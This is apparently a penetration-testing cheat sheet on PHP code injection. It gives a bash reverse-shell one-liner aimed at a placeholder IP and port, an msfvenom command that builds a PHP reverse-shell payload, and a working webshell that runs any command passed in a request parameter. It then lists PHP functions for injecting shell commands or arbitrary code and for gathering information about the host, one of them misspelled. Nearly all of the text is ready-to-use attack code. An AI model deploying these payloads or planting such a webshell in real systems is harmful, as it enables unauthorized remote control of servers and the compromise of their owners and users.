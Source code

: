 # Code Injection

## PHP

### Reverse shell

Linux&#x20;

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'"); php?>
```

From msfvenom

```
msfvenom -p php/reverse_php LHOST=<ip> LPORT=<port> -f raw -o payload.php
```

### Webshell

```
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
```

### Code injection

Inject terminal commands

```
echo exec("<cmd>");
echo passthru("<cmd>");
echo system("<cmd>");
echo shell_exec("<cmd>");
echo `<cmd>`;
```

Inject PHP code (PHP delimiters not required)

```
eval('<php code>')
assert('<php code>')
```

Information gathering

```
phpinfo();
posix_mkfifo();
posix_getlogin();
posix_ttyname();
getenv();
get_current_user();
proc_get_status();
get_cfg_var();
disk_free_space();
disk_total_space();
diskfreespace();
getcwd();
getlastmo();
getmygid();
```